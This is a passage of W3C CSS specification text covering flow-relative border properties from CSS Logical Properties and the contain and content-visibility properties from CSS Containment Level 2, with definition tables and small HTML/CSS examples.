These properties correspond to the `border-top-width`, `border-bottom-width`, `border-left-width`, and `border-right-width` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block-width**, **border-inline-width** |
| [Value:](#css-values-4:value-defs) | `<'border-top-width'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start-width` & `border-block-end-width` and `border-inline-start-width` & `border-inline-end-width`, respectively. The first value represents the start edge width, and the second value represents the end edge width. If only one value is given, it applies to both the start and end edges.

##### 4.5.2.  Flow-Relative Border Styles: the `border-block-start-style`, `border-block-end-style`, `border-inline-start-style`, `border-inline-end-style` properties and `border-block-style` and `border-inline-style` shorthands {#css-logical-1:border-style}

| Field | Value |
| --- | --- |
| Name: | **border-block-start-style**, **border-block-end-style**, **border-inline-start-style**, **border-inline-end-style** |
| [Value:](#css-values-4:value-defs) | `<'border-top-style'>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | Same as `border-top-style` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | Same as corresponding `border-*-style` properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-style` |

These properties correspond to the `border-top-style`, `border-bottom-style`, `border-left-style`, and `border-right-style` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block-style**, **border-inline-style** |
| [Value:](#css-values-4:value-defs) | `<'border-top-style'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start-style` & `border-block-end-style` and `border-inline-start-style` & `border-inline-end-style`, respectively. The first value represents the start edge style, and the second value represents the end edge style. If only one value is given, it applies to both the start and end edges.

##### 4.5.3.  Flow-Relative Border Colors: the `border-block-start-color`, `border-block-end-color`, `border-inline-start-color`, `border-inline-end-color` properties and `border-block-color` and `border-inline-color` shorthands {#css-logical-1:border-color}

| Field | Value |
| --- | --- |
| Name: | **border-block-start-color**, **border-block-end-color**, **border-inline-start-color**, **border-inline-end-color** |
| [Value:](#css-values-4:value-defs) | `<'border-top-color'>` |
| [Initial:](#css-cascade-6:initial-values) | currentcolor |
| [Applies to:](#css-cascade-5:applies-to) | Same as `border-top-color` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | Same as corresponding `border-*-color` properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-color` |

These properties correspond to the `border-top-color`, `border-bottom-color`, `border-left-color`, and `border-right-color` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block-color**, **border-inline-color** |
| [Value:](#css-values-4:value-defs) | `<'border-top-color'>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start-color` & `border-block-end-color` and `border-inline-start-color` & `border-inline-end-color`, respectively. The first value represents the start edge color, and the second value represents the end edge color. If only one value is given, it applies to both the start and end edges.

##### 4.5.4.  Flow-Relative Border Shorthands: the `border-block-start`, `border-block-end`, `border-inline-start`, `border-inline-end` properties and `border-block` and `border-inline` shorthands {#css-logical-1:border-shorthands}

| Field | Value |
| --- | --- |
| Name: | **border-block-start**, **border-block-end**, **border-inline-start**, **border-inline-end** |
| [Value:](#css-values-4:value-defs) | `<'border-top-width'>` \|\| `<'border-top-style'>` \|\| `<color>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These properties correspond to the `border-top`, `border-bottom`, `border-left`, and `border-right` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`.

| Field | Value |
| --- | --- |
| Name: | **border-block**, **border-inline** |
| [Value:](#css-values-4:value-defs) | `<'border-block-start'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These two shorthand properties set the `border-block-start` & `border-block-end` or `border-inline-start` & `border-inline-end`, respectively, both to the same style.

#### 4.6.  Flow-Relative Corner Rounding: the `border-start-start-radius`, `border-start-end-radius`, `border-end-start-radius`, `border-end-end-radius` properties {#css-logical-1:border-radius-properties}

| Field | Value |
| --- | --- |
| Name: | **border-start-start-radius**, **border-start-end-radius**, **border-end-start-radius**, **border-end-end-radius** |
| [Value:](#css-values-4:value-defs) | `<'border-top-left-radius'>` |
| [Initial:](#css-cascade-6:initial-values) | Same as `border-top-left-radius` |
| [Applies to:](#css-cascade-5:applies-to) | Same as `border-top-left-radius` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Same as `border-top-left-radius` |
| [Computed value:](#css-cascade-6:computed) | Same as corresponding physical `border-*-radius` properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `border-radius` |

These properties correspond to the `border-top-left-radius`, `border-bottom-left-radius`, `border-top-right-radius`, and `border-bottom-right-radius` properties. The mapping depends on the element’s `writing-mode`, `direction`, and `text-orientation`, with the first start/end giving the block axis side, and the second the inline-axis side (i.e. patterned as 'border-*block*-*inline*-radius').

#### 4.7.  Four-Directional Shorthand Properties: the `margin`, `padding`, `border-width`, `border-style`, and `border-color` shorthands {#css-logical-1:logical-shorthand-keyword}

The shorthand properties for margin, padding, and border set values for physical properties by default. But authors can specify the **logical** keyword at the beginning of the property value to indicate that the values map to the flow-relative properties instead of the physical ones.

> **Issue:** The proposed syntax for this feature is [under discussion](https://github.com/w3c/csswg-drafts/issues/1282) and is almost guaranteed to change from what is described here. This section remains in the draft to promote discussion of alternatives, to document the affected properties, and to specify the expected impact on the interpretation of whatever syntactic switch is ultimately chosen.

The following [CSS2] shorthand properties accept the `logical` keyword:

- `inset`
- `margin`
- `padding`
- `border-width`
- `border-style`
- `border-color`
- `scroll-padding`
- `scroll-margin`

The syntax for these properties is effectively changed by replacing

```css
<value-type>{1,4}
```

with

```css
logical? <value-type>{1,4}
```

When the `logical` keyword is present in the value, the values that follow are assigned to its flow-relative longhands as follows:

- If only one value is set, the value applies to all four flow-relative longhands.
- If two values are set, the first is for block-start and block-end, the second is for inline-start and inline-end.
- If three values are set, the first is for block-start, the second is for inline-start and inline-end, and the third is for block-end.
- If four values are set, they apply to the block-start, inline-start, block-end, and inline-end sides in that order.

> **Example:** In the following example, the two rules are equivalent:
>
> ```css
> blockquote {
>   margin: logical 1em 2em 3em 4em;
> }
> blockquote {
>   margin-block-start:  1em;
>   margin-inline-start: 2em;
>   margin-block-end:    3em;
>   margin-inline-end:   4em;
> }
> ```

---

## CSS Containment Module Level 2 {#css-contain-2}

- **Shortname:** `css-contain-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-contain-2/](https://drafts.csswg.org/css-contain-2/)
- **Published TR:** [https://www.w3.org/TR/css-contain-2/](https://www.w3.org/TR/css-contain-2/)
- **W3C Status:** ED (stable)
- **Last Edited:** 2026-10-15

### 1.  Introduction {#css-contain-2:intro}

Efficiently rendering a website relies on the user agent being able to detect what parts of the page are being displayed, which parts might affect the currently-displayed section, and what can be ignored.

There are various heuristics that can be used to guess when a given sub-tree is independent of the rest of the page in some manner, but they’re fragile, so innocuous changes to a page may inadvertently make it fail such heuristic tests, causing rendering to fall into a slow code path. There are also many things that would be good to isolate which are difficult or impossible to detect in a heuristic manner.

To alleviate these problems and allow strong, predictable isolation of a subtree from the rest of the page, this specification defines a `contain` property.

To allow even further optimization of off-screen contents, this spec also defines a `content-visibility` property, enabling the user agent to skip an element’s layout and painting *entirely* when not needed.

#### 1.1.  Module Interactions {#css-contain-2:interaction}

This document defines new features not present in earlier specifications. In addition, it aims to replace and supersede [CSS-CONTAIN-1] once stable.

#### 1.2.  Value Definitions {#css-contain-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Strong Containment: the `contain` property {#css-contain-2:contain-property}

| Field | Value |
| --- | --- |
| Name: | **contain** |
| [Value:](#css-values-4:value-defs) | none \| strict \| content \| [ [size \| inline-size] \|\| layout \|\| style \|\| paint ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | See [below](#css-contain-2:contain-applies) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or one or more of `size`, `layout`, `style`, `paint` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

*User agents are expected to support this property on all media, including non-visual ones.*

The `contain` property allows an author to indicate that an element and its contents are, as much as possible, *independent* of the rest of the document tree. This allows user agents to utilize much stronger optimizations when rendering a page using `contain` properly, and allows authors to be confident that their page won’t accidentally fall into a slow code path due to an innocuous change.

****none****

: This value indicates that the property has no effect. The element renders as normal, with no containment effects applied.

****strict****

: This value computes to `size layout paint style`, and thus turns on all forms of containment for the element.

****content****

: This value computes to `layout paint style`, and thus turns on all forms of containment *except* size containment for the element.

  > **Note:** `contain: content` is reasonably "safe" to apply widely; its effects are fairly minor in practice, and most content won’t run afoul of its restrictions. However, because it doesn’t apply size containment, the element can still respond to the size of its contents, which can cause layout-invalidation to percolate further up the tree than desired. Use `contain: strict` when possible, to gain as much containment as you can.

****size****

: The value turns on size containment for the element. This ensures that the containment box can be laid out without needing to examine its descendants.

****inline-size****

: This value turns on inline-size containment for the element. This prevents the inline-size of its principal box from directly depending on its contents.

  > **Note:** There can still be indirect dependencies, see [§ 3.2 Inline-Size Containment](#css-contain-2:containment-inline-size).

****layout****

: This value turns on layout containment for the element. This ensures that the containment box is *totally opaque* for layout purposes; nothing outside can affect its internal layout, and vice versa.

****style****

: This value turns on style containment for the element. This ensures that, for properties which can have effects on more than just an element and its descendants, those effects don’t escape the element.

****paint****

: This value turns on paint containment for the element. This ensures that the descendants of the containment box don’t display outside its bounds, so if an element is off-screen or otherwise not visible, its descendants are also guaranteed to be not visible.

This property generally applies to all elements (including [CSS Pseudo-Elements 4 § 4.1 Generated Content Pseudo-elements: ::before and ::after](#css-pseudo-4:generated-content)), although some types of containment have no effect on some elements, as detailed in [§ 3 Types of Containment](#css-contain-2:containment-types). In addition, in the case of [SVG2], the `contain` property only applies to `svg` elements that have an associated CSS layout box.

> **Example:** `contain` is useful when used widely on a page, particularly when a page contains a lot of "widgets" which are all independent.
>
> For example, assume a micropost social network had markup something like this:
>
> ```
> <body>
>   <aside>...</aside>
>   <section>
>     <h2>Messages</h2>
>     <article>
>       Lol, check out this dog: images.example.com/jsK3jkl
>     </article>
>     <article>
>       I had a ham sandwich today. #goodtimes
>     </article>
>     <article>
>       I have political opinions that you need to hear!
>     </article>
>     …
>   </section>
> </body>
> ```
>
> There are probably a *lot* of messages displayed on the site, but each is independent and won’t affect anything else on the site. As such, each can be marked with `contain: content` to communicate this to the user agent, so it can optimize the page and skip a lot of computation for messages that are off-screen. If the size of each message is known ahead of time, `contain: strict` can be applied to communicate further restrictions.

Additionally, when any containments are active on either the HTML `html` or `body` elements, propagation of properties from the `body` element to the initial containing block, the viewport, or the canvas background, is disabled. Notably, this affects:

- `writing-mode`, `direction`, and `text-orientation` (see [CSS Writing Modes 3 § 8 The Principal Writing Mode](#css-writing-modes-4:principal-flow))
- `overflow` and its longhands (see [CSS Overflow 3 § 3.1.4 Overflow Viewport Propagation](#css-overflow-3:overflow-propagation))
- `background` and its longhands (see [CSS Backgrounds 3 § 2.11.2 The Canvas Background and the HTML <body> Element](#css-backgrounds-4:body-background))

> **Note:** Propagation to the initial containing block, the viewport, or the canvas background, of properties set on the `html` element itself is unaffected.

> **Note:** Several properties beyond `contain` can turn on various containments for an element. These do not affect the value of `contain`; an element can have `contain: none` but still have layout containment turned on by `content-visibility`, for example.

### 3.  Types of Containment {#css-contain-2:containment-types}

There are several varieties of **containment** that an element can be subject to, restricting the effects that its descendants can have on the rest of the page in various ways. Containment enables much more powerful optimizations by user agents, and helps authors compose their page out of functional units, as it limits how widely a given change can affect a document.

**Specification authors introducing new properties or mechanisms need to consider whether and how the various types of containment affect what they are introducing, and include in their specification any effect not described here.**

#### 3.1.  Size Containment {#css-contain-2:containment-size}

Giving an element **size containment** makes its principal box a **size containment box** and has the following effects:

1. The intrinsic sizes of the size containment box are determined as if the element had no content, following the same logic as when sizing as if empty.

   > **Note:** This affects explicit invocations of the `min-content` or `max-content` keywords, as well as any calculation that depends on these measurement, such as sizing grid tracks into which a size contained item is placed, or if fit-content sizing the containment box’s parent.
2. Laying out a size containment box and its content is conceptually done in two phases:

   ****Sizing as if empty****

   : The used `width` and `height` of the containment box are determined as if performing a normal layout of the box, except that it is treated as having no content—​not even through pseudo-elements such as `::before`, `::after`, or `::marker`.

  Replaced elements must be treated as having a natural width and height of 0 and no natural aspect ratio.

  > **Note:** Size containment only suppresses the natural aspect ratio, so properties like `aspect-ratio` which affect that preferred aspect ratio directly are honored.

  All CSS properties of the size containment box are taken into account as they would be when performing layout normally. Other specifications may make specific exemptions.

  > **Note:** Even when the element’s sizing properties specify an intrinsic size, this does not necessarily make the element zero-sized: properties set on the element itself continue to be taken into account, which can cause it to be larger.

   ****Laying out in-place****

   : The containment box’s content (including any pseudo-elements) must then be laid out into the now fixed-size containment box normally.

   > **Note:** Size containment does not suppress baseline alignment. See layout containment for that.
3. Size containment boxes are monolithic (See [CSS Fragmentation 3 § 4.1 Possible Break Points](#css-break-4:possible-breaks)).

> **Example:** Given the following markup and style, the image would be sized to 100px by 100px, as the aspect ratio set by the `aspect-ratio` property takes effect.
>
> ```
> img {
>   width: 100px;
>   aspect-ratio: 1/1;
>   contain: size;
> }
>
> 
> ```
>
> If the `aspect-ratio` property had not been declared, the image would have been 100px by 0px, as its natural aspect ratio is suppressed, and its natural height is treated as 0.

However, giving an element size containment has no effect if any of the following are true:

- if the element does not generate a principal box (as is the case with `display: contents` or `display: none`)
- if its inner display type is `table`
- if its principal box is an internal table box
- if its principal box is an internal ruby box or a non-atomic inline-level box

> **Note:** Internal table boxes, which do not include table captions, are excluded, because the table layout algorithm does not allow boxes to become smaller than their inflow content. Sizing a table cell as if it was empty and then laying out its content inside without changing the size is effectively an undefined operation. Manually setting the `width` or `height` properties to `0` cannot make it smaller than its content. This concern does not apply to table captions, which are perfectly capable of having a fixed size that is independent of their content.

##### 3.1.1.  Possible Size-Containment Optimizations {#css-contain-2:containment-size-opt}

*This section is non-normative.*

By itself, size containment does not offer much optimization opportunity. Its primary benefit on its own is that tools which want to lay out the containment box’s contents based on the containment box’s size (such as a JS library implementing the "container query" concept) can do so without fear of "infinite loops", where having a child’s size respond to the size of the containment box causes the containment box’s size to change as well, possibly triggering *further* changes in how the child sizes itself and possibly thus more changes to the containment box’s size, ad infinitum.

When paired with layout containment, though, possible optimizations that can be enabled include (but are not limited to):

1. When the style or contents of a descendant of the containment box is changed, calculating what part of the DOM tree is "dirtied" and might need to be re-laid out can stop at the containment box.
2. When laying out the page, if the containment box is off-screen or obscured, the layout of its contents (i.e. "laying out in-place") can be delayed or done at a lower priority.

#### 3.2.  Inline-Size Containment {#css-contain-2:containment-inline-size}

Giving an element **inline-size containment** applies size containment to the inline-axis sizing of its principal box. This means the inline-axis intrinsic sizes of the principal box are determined as if the element had no content. However, content continues to impact the box’s block-axis intrinsic sizes as usual, and the box is allowed to fragment normally in the block axis.

> **Note:** In some cases, a box’s block-axis intrinsic sizes can impact layout in the parent formatting context in ways that affect the box’s inline size (e.g. by triggering scrollbars on an ancestor element), creating a dependency of the box’s inline size on its own content. If this changed inline size results in a different block size, that new block size can loop into further impacting the parent formatting context, but not in a way that reverts it to the previously-problematic layout.
>
> For example, if scrollbars were introduced, they are then not removed, even if the consequent block size is small enough to not need them; or if a box’s logical height collides with a lower-placed float and is cleared down to where it also has more available inline space and thus becomes short enough to not have collided, it is then not moved back up to its previous problematic size and position.
>
> Thus, although inline-size containment prevents the box’s content from directly affecting its inline size through its inline-axis intrinsic sizes, its inline size can still indirectly depend on its contents by their effect on its block size.

> **Issue:** In general, the relationship between an element’s inline size and it’s block size is unpredictable and non-monotonic, with the block size capable of shifting up and down arbitrarily as the inline size is changed. Infinite cycles are prevented by ensuring that layout does not revert to a previous (known-problematic) state, even if a naive analysis of the constraints would allow for such; in other words, layout always “moves forward”. We believe that current CSS layout specifications incorporate such rules, but to the extent that they don’t, please [inform the CSSWG](https://github.com/w3c/csswg-drafts/issues) so that these errors can be corrected.

> **Example:** Consider this example, where float placement creates a dependency of block sizes on inline sizes:
>
> ```markup
> <section style="width: 200px; border: solid; display: flow-root;">
>   <!-- floated elements that impact the available space -->
>   <div style="float: left; width: 50px; height: 80px; background: blue;"></div>
>   <div style="float: right; width: 50px; height: 80px; background: blue;"></div>
>   <div style="float: left; width: 160px; height: 80px; background: navy;"></div>
>
>   <!-- parent layout, determining context -->
>   <article style="border: solid orangered; display: flow-root; min-width: min-content">
>     <div style="background: orange; aspect-ratio: 1/1;">
>       Article
>     </div>
>   </article>
> </section>
> ```
>
> Article
>
> The block layout algorithm will first place the floating boxes, with the first two sitting in the left and right corners of the container, and the third, being too wide to fit between, being pushed below them.
>
> The following `article` will then be laid out. Because it is `display: flow-root`, it cannot intersect any floats, and thus must take them into account when figuring out how to size and position itself.
>
> The layout engine first attempts to place the `article` flush with the top of the container, resulting a `100px` width, plenty wide enough to accommodate its min-content size. However, due to the `aspect-ratio` of its child, this would cause the `article` to be `100px` tall as well, which would intersect the third float 80px below, so this layout opportunity is discarded.
>
> It then attempts to position the `article` flush with the top of the third float, in the narrow `40px`-wide space to its right. However, since the `article`’s `min-width` makes it too large to fit in the 40px-wide space beside the third float, it shifts below that one as well, forming a 200px square below all the floated boxes.
>
> Article
>
> If the `min-width` is removed from the `article`, or if inline-size containment is added to either the `article` or `header` (causing `min-width: min-content` to resolve to zero), then the `article` will fit as a 40px square next to the final floated `div` (possibly with some of its content overflowing).
>
> At this point, the width and height of the `article` (`40px` each) *would* fit back in the first considered space, flush with the top of the container. However, the box is not returned to the previous position, because the layout engine knows already that this position would result in an invalid layout.

Giving an element inline-size containment has no effect if any of the following are true:

- if the element does not generate a principal box (as is the case with `display: contents` or `display: none`)
- if its inner display type is `table`
- if its principal box is an internal table box
- if its principal box is an internal ruby box or a non-atomic inline-level box

#### 3.3.  Layout Containment {#css-contain-2:containment-layout}

Giving an element **layout containment** makes its principal box a **layout containment box** and has the following effects:

1. The layout containment box establishes an independent formatting context.
2. If at least one fragmentation container of a fragmentation context has layout containment, or if at least one fragmentation container of a fragmentation context is a descendant of layout containment box **and** at least one subsequent fragmentation container of the same fragmentation context is not a descendant of that same element with layout containment, then the first layout containment box which is either a fragmentation container itself or is an ancestor of a fragmentation container must “trap” the remainder of the fragmented flow: fragmentation must not continue past the layout containment boundary, and the last fragmentation container within the first layout containment boundary is treated as if it is the last fragmentation container in its fragmentation context.

   If subsequent fragmentation containers in the fragmentation context are only generated when more content remains in the fragmented flow, then they are not generated. If they would exist regardless, they remain part of the fragmentation context, but do not receive any content from the fragmented flow.

   > **Note:** At the time of writing, no stable specification is affected by this point. Only specifications that would enable some (but not all) fragmentation containers of a fragmentation context to be layout-contained (or descendants of a layout contained element) are concerned. This is not the case of [CSS-PAGE-3] nor of [CSS-MULTICOL-1]. This requirement is nonetheless included because several mechanisms that would make this a possibility have been considered (e.g.: [CSS-REGIONS-1], `::nth-fragment()`, a hypothetical selector for individual columns of a multicol…), and the guarantees that layout containment is intended to offer would not be realized if such mechanisms did not abide by this rule. [CSS-REGIONS-1] has details over how layout containment affects regions.

   > **Example:** ```
   > <article>Lorem ipsum…</article>
   > <div id=a></div>
   > <aside>
   >   <div id=b></div>
   >   <div id=c></div>
   > </aside>
   > <aside>
   >   <div id=d></div>
   >   <div id=e></div>
   > </aside>
   > <div id=f></div>
   > ```
   >
   > ```
   > article {flow-into: foo;}
   > #a, #b, #c, #d, #e, #f {flow-from: foo;}
   > aside {contain: layout}
   > ```
   >
   > In this [CSS-REGIONS-1] example, content can flow from `#a` to `#b`, from `#b` to `#c`. However as `#c` is the last fragment container in the first layout containment box it traps all the remaining content, and nothing gets flowed into `#d`, `#e`, or `#f`.
3. If the computed value of the `overflow` property is either `visible` or `clip` or a combination thereof, any overflow must be treated as ink overflow.
4. The layout containment box establishes an absolute positioning containing block and a fixed positioning containing block.
5. The layout containment box creates a stacking context.
6. Forced breaks are allowed within layout containment boxes but do not propagate to the parent as otherwise described in [CSS Fragmentation 3 § 3.1 Breaks Between Boxes: the break-before and break-after properties](#css-break-4:break-between).

   > **Note:** This introduces the previously non-existent possibility that forced breaks may occur between a box and its container (See [CSS Fragmentation 3 § 4.1 Possible Break Points](#css-break-4:possible-breaks)).
7. For the purpose of the `vertical-align` property, or any other property whose effects need to relate the position of the layout containment box’s baseline to something other than its descendants, the containment box is treated as having no baseline.

However, giving an element layout containment has no effect if any of the following are true:

- if the element does not generate a principal box (as is the case with `display: contents` or `display: none`)
- if its principal box is an internal table box other than `table-cell`
- if its principal box is an internal ruby box or a non-atomic inline-level box

##### 3.3.1.  Possible Layout-Containment Optimizations {#css-contain-2:containment-layout-opt}

*This section is non-normative.*

Possible optimizations that can be enabled by layout containment include (but are not limited to):

1. When laying out the page, the contents of separate containment boxes can be laid out in parallel, as they’re guaranteed not to affect each other.
2. When laying out the page, if the containment box is off-screen or obscured and the layout of the visible parts of the screen do not depend on the size of the containment box (for example, if the containment box is near the end of a block container, and you’re viewing the beginning of the block container), the layout of the containment box' contents can be delayed or done at a lower priority.

   (When paired with size containment, this optimization can be applied more liberally.)

#### 3.4.  Style Containment {#css-contain-2:containment-style}

Giving an element **style containment** has the following effects:

1. The `counter-increment` and `counter-set` properties must be scoped to the element’s sub-tree and create a new counter.
2. The effects of the `content` property’s `open-quote`, `close-quote`, `no-open-quote` and `no-close-quote` must be scoped to the element’s sub-tree.

   > **Note:** This implies that the depth of quote nesting in the subtree is unchanged and starts at the value that its context normally implies, but that changes to the depth of quote nesting by these values inside the subtree do not affect the depth of quote nesting outside the subtree.

However, giving an element style containment has no effect if any of the following are true:

- if the element does not generate a principal box (as is the case with `display: contents` or `display: none`)

> **Note:** [CSS-REGIONS-1] has normative requirements on how style containment affects regions.

A **scoped property** has its effects scoped to a particular element or subtree.

- If **scoped to an element**, it must act as if the scoping element was the root of the document for the purpose of evaluating the property’s effects: any uses of the property outside the scoping element must have no effect on the uses of the property on or in the scoping element, and vice versa.

  > **Note:** “Scoping to an element” is currently unused. It is defined as an extension point for future specifications to use.
- If **scoped to a sub-tree**, it’s the same, except the scoping element itself is counted as "outside" the tree, like the rest of the document, and the effects of the property on that element are unaffected by scoping. When considering the effects of the scoped property on elements *inside* the subtree, the element at the base of the subtree is treated as if it was the root of the document.

> **Example:** As `counter-increment` is scoped to an element’s subtree, the first use of it within the subtree creates a fresh counter, regardless of whether the counter had been used outside the scoping element. Any increments made within the subtree have no effect on counters of the same name outside the scoping element. However, the `counter()` and `counters()` value of the `content` property is not itself scoped, and can refer to counters established outside of the subtree.
>
> For example, the following markup and style:
>
> ```
> <div>
>   <div style="contain: style;">
>     <div></div>
>     <div></div>
>   </div>
>   <div>
>     <div></div>
>     <div></div>
>   </div>
> </div>
> ```
>
> ```
> body {
>   counter-reset: foo;
> }
> div {
>   counter-increment: foo;
>
>   /* and to help observe nesting properly */
>   margin: .2em;
>   padding: .2em;
>   background: #0001;
> }
> div::before {
>   content: counters(foo, ".");
> }
> ```
>
> Will render like:
>
> 1
>
> 2
>
> 2.1
>
> 2.2
>
> 3
>
> 4
>
> 5
>
> Here, the style-contained element still interacts with the `foo` counter normally, incrementing it to 2. Its `::before` pseudo-element, which is effectively a child and thus within the containment boundary, can still see that counter normally, and thus will render the string "`2`".
>
> Later siblings of the style-contained element don’t see anything that goes on within the boundary, so they increment the `foo` counter to 3 and beyond.
>
> Within the containment, however, the descendant divs aren’t allowed to modify the value of the outside counter, so instead they’ll create a fresh (nested) `foo` counter when they attempt to increment it.

##### 3.4.1.  Possible Style-Containment Optimizations {#css-contain-2:containment-style-opt}

*This section is non-normative.*

Possible optimizations that can be enabled by style containment include (but are not limited to):

1. Whenever a property is changed on a descendant of an element with style containment, calculating what part of the DOM tree is "dirtied" and might need to have its style recalculated can stop at the element with style containment.

#### 3.5.  Paint Containment {#css-contain-2:containment-paint}

Giving an element **paint containment** makes its principal box a **paint containment box** and has the following effects:

1. The contents of the element including any ink or scrollable overflow must be clipped to the overflow clip edge of the paint containment box, taking [corner clipping](#css-borders-4:corner-clipping) into account. This does not include the creation of any mechanism to access or indicate the presence of the clipped content; nor does it inhibit the creation of any such mechanism through other properties, such as `overflow`, `resize`, or `text-overflow`.

   > **Note:** This clipping shape respects `overflow-clip-margin`, allowing an element with paint containment to still slightly overflow its normal bounds.

   > **Note:** The behavior is described in this paragraph is equivalent to changing `overflow-x: visible` into `overflow-x: clip` and `overflow-y: visible` into `overflow-y: clip` at used value time, while leaving other values of `overflow-x` and `overflow-y` unchanged.
2. The paint containment box establishes an absolute positioning containing block and a fixed positioning containing block.
3. The paint containment box creates a stacking context.
4. The paint containment box establishes an independent formatting context.

However, giving an element paint containment has no effect if any of the following are true:

- if the element does not generate a principal box (as is the case with `display: contents` or `display: none`)
- if its principal box is an internal table box other than `table-cell`
- if its principal box is an internal ruby box or a non-atomic inline-level box

##### 3.5.1.  Possible Paint-Containment Optimizations {#css-contain-2:containment-paint-opt}

*This section is non-normative.*

Possible optimizations that can be enabled by paint containment include (but are not limited to):

1. If the containment box is off-screen or obscured, the UA can usually skip trying to paint its contents, as they’re guaranteed to be off-screen/obscured as well.

   > **Note:** Some paint effects such as the `blur()` filter from [FILTER-EFFECTS-1] have non local effects. The user agent needs to keep track of these, as it may need to repaint parts of an element with such a filter when its descendents change, even if they have paint containment and could otherwise be skipped.
2. Unless the clipped content is made accessible via a separate mechanism such as the `overflow` or `resize` properties, the UA can reserve "canvas" space for the box exactly the box’s size. (In similar, scrollable, situations, like `overflow: hidden`, it’s possible to scroll to the currently-clipped content, so UAs often predictively overpaint somewhat so there’s something to see as soon as the scroll happens, rather than a frame later.)
3. Because they are guaranteed to be stacking contexts, scrolling elements can be painted into a single GPU layer.

### 4. Suppressing An Element’s Contents Entirely: the `content-visibility` property {#css-contain-2:content-visibility}

| Field | Value |
| --- | --- |
| Name: | **content-visibility** |
| [Value:](#css-values-4:value-defs) | visible \| auto \| hidden |
| [Initial:](#css-cascade-6:initial-values) | visible |
| [Applies to:](#css-cascade-5:applies-to) | elements for which size containment can apply |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see [§ 4.1 Animating and Interpolating content-visibility](#css-contain-2:content-visibility-animation) |

The `content-visibility` property controls whether or not an element renders its contents at all, along with forcing a strong set of containments, allowing user agents to potentially omit large swathes of layout and rendering work until it becomes needed. It has the following values:

****visible****

: No effect. The element’s contents are laid out and rendered as normal.

****hidden****

: The element skips its contents.

  The skipped contents *must not* be accessible to user-agent features, such as find-in-page, tab-order navigation, etc., nor be selectable or focusable.

  > **Note:** This is similar to giving the contents `display: none`.

****auto****

